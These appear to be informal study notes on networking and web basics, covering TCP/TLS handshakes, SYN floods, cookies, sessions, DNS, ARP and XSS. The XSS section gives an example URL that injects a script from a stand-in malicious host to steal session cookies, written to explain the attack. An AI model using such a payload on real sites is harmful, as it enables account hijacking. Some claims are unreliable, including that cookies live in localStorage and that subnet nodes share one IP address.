








[TOC]

# questions

## 1. explain request-response cycle

client sends a request  for some data and the server response to the request. for simplicity its usually implemented in synchronous fashion (ie connection is opened and waits until the response is delivered or timeout)

## 2. explain TCP-handshakes

TCP is a transport layer host to host protocol for connection oriented communication between machines over IP network. usually its a three-way handshakes to establish connection in short **SYN -> SYN-ACK -> ACK** (synchronize and acknowledge) and a four-way handshakes to terminate connection **FIN -> ACK -> FIN -> ACK**. the working mechanism is design such that two machines that want to pass message back and forth to each other can negotiate the parameters of the connection before transmitting data such as HTTP browser request.

> ISN (initial sequence number) is a value selected prior to the first SYN message. its a dynamic number, or one can see it as a 32 bit counter where every 4ms it increments by one to prevent network delay and resending packets with same sequence number and to prevent attackers guessing the subsequent sequence number

> all handshakes happens **after** DNS lookup and **before** TLS handshake when creating a secured connection

### 2.1 establish communication



### 2.2 why 3-way handshake?

the third ack is not redundant to prevent lagged connection, eg. first SYN is delayed, thus client sent another SYN packet and successfully establish connection. then the first SYN is received by the server end and attempt to establish a **new** connection. had there is only two handshakes required to establish connection, we would have established two connection which is a waste of resource.

multi-way handshake is designed to address communication channel's unreliability for multiple parties that attempts to reach consensus and 3 is the theoretical minimum number of handshakes required. note the consensus here refers to the communication channel's reliability.

### 2.3 terminate connection (can be initiated from both ends)



### 2.4 more on syn-ack

there exists two queues, semi-connection and full connection. once the server received client SYN, it will be in SYN-RCVD state and the server will place it into the semi-connection queue. only after receiving the second ACK from client then it will be place to the full connection queue. if the client didn't receive the second ACK signal from client the server will attempt to resend SYN-ACK until maximum attempts (config) with exponential delay.

### 2.5 data packet

first two handshakes should not have data packet to prevent malicious attack by flooding with enormous SYN packets (including data packet) in short burst.

### 2.6 SYN-attack

by flooding server with large volume of SYN packet through forged IP. this results large volume of queued item in the semi-connection queue pending to resend SYN-ACK, however these IP are forged or basically doesn't exists thus effectively prevent more items to be queued into the semi-connection queue.

solutions:

- resolve with SYN-Cookies
- minimize SYN Timeout
- limit maximum semi-connection queue size
- other protection mechanism / gateway

### 2.7 why 4-way handshakes?

server might have logic to handle sudden connection closure eg. processing some information, thus the first ACK is to inform that the close connection request is received, the socket is still remained connected until the FIN is sent by the server.

### 2.8 2MSL waiting state

TIME_WAIT or 2MSL wait state (maximum segment lifetime). its the time a TCP segment can exists in the internetwork system before discarded. when TCP executes a closing operation and response with the final ACK, the connection must wait for 2MSL. if there exists no 2MSL, when the server resend FIN-ACK the connection was single sided closed on the client end thus server can't be close properly. if the same client reinitiate another TCP connection to the same port, should there be no reliable connection termination the segments might mixed out. with 2MSL, both FIN-ACK and ACK will be reliabily discarded. if the lost final ACK reappear in the network system as long as it expires the 2MSL it will be discarded.

## 3. explain TLS handshakes (SSL)

TLS handshake is a process that kicks off a communication session that uses TLS encryption. during the handshake, two communicating sides exchanges messages to acknowledge and verify each other and then establish the encryption to be used and agree on session keys. can be used on top of any low level transport but its original goal is to secure HTTP traffic.



TLS provides

- authentication - verify the other party is who they claim to be
- encryption - data is encrypted to prevent MITM attack
- integrity - ensure encrypted transmission and decryption of data, no data loss, damaged, tampered or falsified.

verifying SSL / client certificate info / Certificate Authority public key



## 3. how pub/pri key works?

asymmetric cryptography uses pairs of keys generated from a one way function such that only the private key can decrypt whatever is encrypted by the public key. for two party communication what could be done its where A's public key + B's private key forms a shared secret between A and B and vice versa. also its possible to sign a message with a private key, such that we could verify the integrity of the message with the corresponding public key.

### 3.1 symmetric cryptography

or secret key, which a single key is used to encrypt and decrypt a document. is faster than asymmetric cryptography however it is a challenge to pass the key around. commonly used algorithm includes DES and AES.

## 4. http post vs http get

http post request are never cached, don't remain in browser history, cant be bookmarked and no data length restrictions, thus its highly advised to use post request to deal with sensitive data. get is only good for retrieving / requesting data. however post is not encrypted, thus it can be sniffed and intercepted, or leaked through logging. to avoid this use SSL / TLS to ensure encryption.

## 5. explain MVC concept



divides related program logic in to three interconnected elements. its done to separate internal representation of information from the ways information is presented. model could be a data access object, or some abstraction that directly manages data. controller accepts input and converts it to commands for model or view.

## 6. http cookies

http cookies is a small piece of data that a server sends to the user's web browser (client side storage) and the browser may store it and send it back with later requests (for every request) to the same server. simply its used to tell if two requests came from the same browser - keeping a user logged-in for example. it remembers stateful information for the stateless HTTP protocol. session management, personalization and tracking are the three main purposes for a cookie. its stored in the web storage api (`localStorage` and `sessionStorage`) and IndexedDB.

## 7. sessions

the five horseman of sessions with flask

- user session
- server side session for authentication
- flask global variable
- cookie's key name (inspect Application Cookies)
- Flask-Session (server side equivalent of Cookies implementation, returns the key instead)

session is a temporary and interactive information interchange between two or more communicating devices or between a computer and user. a session is established at a certain point in time, torn down at some later point. an established communication session may involve more than one message in each direction. its stateful, which at least one of the communicating parties needs to hold current state information and save information about session history to be able to communicate as opposed to stateless communication.

HTTP session is a sequence of network request-response transactions. client initiates a request by establishing TCP connection to port and the server listening at the port receives the request and response back is what a simple HTTP session is.

## 8. state

stateful is if a system is designed to remember preceding events or user interactions. examples including FTP and TCP.

stateless protocol is a communication protocol in which the receiver must not retain session state from previous request. the sender transfers relevant session state to the receiver in such a way that every request can be understood in isolation or without reference to session state from previous requests retained by the receiver. examples including HTTP request.

### why stateless?

improves visibility, reliability and scalability. the monitoring system does not have to look beyond a single request in order to determine its full nature thus visibility improved. reliability improved due to it eases the task of recovering from partial failures. scalability arises as no storing session state between requests allows server to free resources and simplifies implementation. however the payload is larger as compared to stateful system and parsing is required per request.

we can observed there is no fully stateful or stateless route, its a mixed between both. HTTP and TCP is one of the examples.

## 9. tokens

## 10. OAuth

(under redirect umbrella) open standard for access delegation, commonly used to grant user access to websites/application to access their information without giving passwords.

## 11. HTTP version

| http version | 
HTTP 1.0/1.1/2.0

## 12. maintaining HTTP connection

## 13. XSS

prerequisite: same origin policy, browser will not allow cross origin read or write to another website. the protocol, host and port are used to check for this matter.

cross site scripting includes injection of any content. the injected content (client side script) is executed by other users, which allows attackers to bypass access controls eg same origin policy.

a simple example, by exploiting url `http://site.com/search?q=cats<script src="http://malicious.com/malicious.js"></script>` which executes search (http request to server), then server returns the standard html respose together with the injected script tag. when browser renders the html, it can not distingush between the malicious tag and normal tags, which the malicious tag is executed. the script proceeds to make a copy of the user's authorization cookie and sends back to the attacker. such example is non-persistent type which is usually done through phishing emails. persistent type will stays on the website and steals all user's authorization cookie. DOM XSS is entirely on client side, which can think of injection to SPAs, and DOM change is detected and page get rendered/executed.

to prevent XSS inputs must be sanitized, thus templating engines requires `safe` keyword when sending HTML contents and JS html sanitize libraries exists. also cookie's security is added to further mitigate XSS by tying cookie with IP address, can be potential exploited by NATed IP address/IP address fogery.

## 14. sticky connection

by having the load balancer creates affinity between client and host server during a session. this allows http(s) a "stateless" protocol to be stateful. it helps to reduce the urgency of syncying user session data and have a better used of RAM cache, however at the cost of potential less well balanced loading. duration based expiry session can help to alleviate such issues.

## 15. forward and redirect

redirect essentially two http request is been made.



forward



## 16. DNS

Domain name system converts human readable domain names `example.com` into
IP address through a hierarchical structure. A domain name registrar is a
company that managed the reservation of internet domain name. These companies
holds the name server records and name servers holds DNS records.

DNS records are instructions that live in authoritative DNS servers and provide 
information about a domain including what IP address is associated with that
domain and how to handle requests for that domain. DNS records including A,
AAAA, CNAME, NS and etc.

Domain name is resolved in reversed order. `https://hostname.www.example.com`
is first resolved at the root name server to get the top level domain name
server for `.com` then second level domain/authoritative name server for
`example.com` and finally obtain IP address.

```
http://api.www.example.com/ -> url
|      |  |   |       |   |_ root (ICANN)
|      |  |   |       |_ TLD (IANA)
|      |  |   |_ SLD (domain registrar)
|      |  |_ subdomain
|      |_ FQDN
|_ protocol
```



> local DNS is usually the internet service provider

### Record Types

- A record: maps domain name to IPv4
- AAAA record: maps domain name to IPv6
- CNAME: maps domain name to domain name that has A or AAAA record
- NS: maps domain name to authoritative DNS server that contains actual DNS records

## 17. Browser

1. resolve URL's domain name into IP address using DNS
2. establish TCP connection with target server
3. make HTTP request
4. target server handles the request and response with http message
5. browser renders the http message

## 18. Digital certificates and signs

## 19. ARP

mainly converts IP address to MAC address. in RFC1122 mention ARP within link layer without explictly placing it in that layer while newer editions associate it at the network layer. it communicated within boundaries of a single network and is never routed across internetworking nodes.

1. within local network if host A is sending host B IP packet, host A check in its ARP cache if host B's IP and MAC address pair exists, if yes the MAC address is added to the header of the IP packet.
2. if ARP cache could not find the pair, host A broadcasts an ARP request across the local network, once host B received it will send the paired information to A, A proceeds to cache it and sends the packet.
3. if A and B are not in the same local network, the process is similar but through a router, and within A's ARP table it stores the router that links to B instead
4. if router that A relies has no corresponding pair, A broadcast to the router and subsequently the router broadcast to other routers so on and so forth.

## 20. IP address and MAC address

IP address can be think of as postal address, and MAC address can be think of as the actual receipient. having both resolves the problem where within a subnet all nodes shares the same IP address. network switch is responsible for transfering frames from a MAC address to another. router identifies IP address and transmit the packet to destination IP.